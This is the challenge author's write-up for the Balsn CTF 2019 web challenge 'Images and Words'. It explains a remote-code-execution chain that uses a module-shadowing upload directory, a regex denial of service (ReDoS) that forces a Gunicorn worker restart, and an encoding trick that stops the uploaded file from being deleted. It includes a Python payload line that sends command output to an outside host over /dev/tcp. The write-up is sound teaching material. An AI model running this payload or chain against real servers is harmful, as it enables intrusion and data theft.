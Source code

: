 ## Challenge Information

- Name: Images and Words  
- Type: Web + Misc  
- Description:

```  
BGM: [Dream Theater - Images and
Words](https://www.youtube.com/watch?v=MkLIJw-fOIQ&list=PL8ANB2FxMC6WnDQDe_MS-
OioyR5GEgEvC)  
```

- Files provided: All the files under `docker/zeus/app_scaffold/`  
- Solves: 0 / 720

## Build

```  
docker-compose build  
docker-compose up

# attach bash for debugging  
docker ps  
docker exec -it <CONTAINER ID> bash  
```

## Writeup

This web application will render a text file to a PNG image using
[pypng](https://github.com/drj11/pypng) library. The user can upload a text
file under directory `png`.

The key is to identify the package name `png` happens to be the same as the
upload directory name. Therefore, if the directory `png` exists, `import png`
will not import the module `pypng`, but `png` in current working directory.

Thus, we can upload the python file named `__init__.py`:

```python  
__import__('os').system('bash -c "/readflag>/dev/tcp/bookgin.tw/80"')  
```

However, because the web server is using Gunicorn. Gunicorn uses pre-fork
worker model to launch workers. The pypng module has already been loaded.
Unless we manually reload it or restart the python process, it will not import
the file under `png` in current work directory.

In fact, Gunicorn will monitor its worker processes. If the worker is not
responsive or stuck somehow, by default [it will await 30
seconds](http://docs.gunicorn.org/en/stable/settings.html#timeout) and then
restart the worker. You can notice the process id here is different.

```  
[2019-10-07 12:36:04 +0800] [23271] [INFO] Starting gunicorn 19.9.0  
[2019-10-07 12:36:04 +0800] [23271] [INFO] Listening at: http://127.0.0.1:8080
(23271)  
[2019-10-07 12:36:04 +0800] [23271] [INFO] Using worker:
uvicorn.workers.UvicornWorker  
[2019-10-07 12:36:04 +0800] [23274] [INFO] Booting worker with pid: 23274  
[2019-10-07 12:36:04 +0800] [23274] [INFO] Started server process [23274]  
[2019-10-07 12:36:04 +0800] [23274] [INFO] Waiting for application startup.  
[2019-10-07 12:37:05 +0800] [23271] [CRITICAL] WORKER TIMEOUT (pid:23274)  
[2019-10-07 12:37:06 +0800] [23825] [INFO] Booting worker with pid: 23825  
[2019-10-07 12:37:06 +0800] [23825] [INFO] Started server process [23825]  
[2019-10-07 12:37:06 +0800] [23825] [INFO] Waiting for application startup.  
```

Hence we have to find an approach to make the server stuck for more than 30
seconds. The server source code strictly truncates the filename and file
content. Nginx also has also been set a limitation 1M for the uploaded file
size. It's too difficult to upload a huge file to make the server stuck.
However, in this function:

```python  
def sanitize_filename(dangerous_filename):  
   print(len(dangerous_filename))  
   res = re.match(r'^[\.a-zA-Z0-9_-]([\.a-zA-Z0-9_-]+)*$', dangerous_filename)  
   safe_filename = secrets.token_urlsafe(32)[:32] if res is None else
dangerous_filename  
   return safe_filename  
```

The regular expression is vulnerable to
[ReDoS](https://en.wikipedia.org/wiki/ReDoS). If we have a file named
`aaaaaaaaaaaaaaaaaaaaaa!`, the regular expression will backtrack for a large
number of matches. You could try this payload in
[regex101](https://regex101.com/r/61PZxD/2). By exploiting this we can make
Gunicorn restart the worker process and load our malicious `png/__init__.py`.

One more thing: the server will remove the uploaded text file.

```python  
def render(filename):  
   src = config.UPLOAD_DIR / filename  
   with open(src, 'r') as f:  
       text = f.read()  
   src.unlink()  
   dst = config.UPLOAD_DIR / (filename + '.png')  
   with open(dst, 'wb') as f:  
       text2image.render(text, f)  
```

To exploit, we can upload a non-UTF-8 Python file with [explicit declaration
of encoding](https://www.python.org/dev/peps/pep-0263/#id8). Because this line
`with open(src, 'r') as f:` does not specify the encoding, it will fail to
decode as UTF-8 and throw an exception. Thus the file will not be deleted.
Race condition should also work here but it's less stable. The full exploit is
in the `exploit` directory.

## Postscript

One day I was writing some Python code, and the directory name happened to
conflict with a package name. Then I came out with this idea. For the Gunicorn
part, I just need some execution which will take a long time. ReDoS (in fact I
heard this on a USENIX conference) quickly flashed through my mind.

Although some techniques seem less useful regarding exploitation, sometimes it
becomes a very important part in the RCE chain.

I hope this is a not-so-crafted challenge and hope you enjoy it!  

Original writeup (https://github.com/BookGin/my-ctf-
challenges/tree/master/balsn-ctf-2019/images-and-words).